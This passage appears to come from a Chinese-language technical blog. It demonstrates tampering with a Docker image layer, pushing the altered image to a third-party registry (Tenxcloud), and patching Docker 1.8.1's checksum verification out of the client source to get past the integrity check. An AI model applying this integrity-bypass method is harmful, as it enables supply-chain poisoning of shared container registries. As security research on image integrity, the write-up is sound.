 内容改成：Code Injection

运行篡改过后的Image：
```
docker run -it --rm -p 8888:80 lijianying10/nginxtest1:0
Love - - [12/Dec/2015:19:11:38 +0000] "GET /1577f46edfae12423a1985800c018318.html HTTP/1.1" 200 15 "-" "curl/7.35.0" "-"

root@Love:~# curl http://co.newb.xyz:8888/1577f46edfae12423a1985800c018318.html
Code Injection
```
容器运行并未对文件完整性做检查。

然而我篡改代码后ID并没有改变：
```
root@Love:/var/lib/docker# docker history lijianying10/nginxtest1:0
IMAGE               CREATED             CREATED BY                                      SIZE                COMMENT
7e2848dc9a3e        14 minutes ago      /bin/sh -c #(nop) CMD ["nginx" "-g" "daemon o   0 B
d33adc4d8484        14 minutes ago      /bin/sh -c #(nop) COPY file:bc24671d305c24a3d   9 B
```

去污染Tenxcloud。
```
root@Love:/var/lib/docker# docker tag lijianying10/nginxtest1:0 index.tenxcloud.com/philo/nginxtest1:0
root@Love:/var/lib/docker# docker push index.tenxcloud.com/philo/nginxtest1:0
The push refers to a repository [index.tenxcloud.com/philo/nginxtest1] (len: 1)
7e2848dc9a3e: Image successfully pushed
d33adc4d8484: Buffering to Disk
file integrity checksum failed for "usr/share/nginx/html/1577f46edfae12423a1985800c018318.html"
```
发现有checksum 。
[这个Issue已经描述过类似问题](https://github.com/docker/docker/issues/1105)
这里面说早期版本里面就直接可以重新算,而且已经修复了。所以不能通过删除checksum来推送。

但是在客户端而且docker是开源的我直接把不要的逻辑修掉。

在1.8.1 版本里面定位代码位置：vendor/src/github.com/vbatts/tar-split/tar/asm/assemble.go:59

```
if !bytes.Equal(c.Sum(nil), entry.Payload) {
    // I would rather this be a comparable ErrInvalidChecksum or such,
    // but since it's coming through the PipeReader, the context of
    // _which_ file would be lost...
    fh.Close()
    pw.CloseWithError(fmt.Errorf("file integrity checksum failed for %q", entry.Name))
    return
}
```
嗯哼就是这里了。干掉他！

重新编译docker这个版本。
```
Client:
 Version:      1.8.1
 API version:  1.20
 Go version:   go1.4.2
 Git commit:
 Built:
 OS/Arch:      linux/amd64

Server:
 Version:      1.8.1
 API version:  1.20
 Go version:   go1.4.2
 Git commit:   d12ea79
 Built:        Thu Aug 13 02:35:49 UTC 2015
```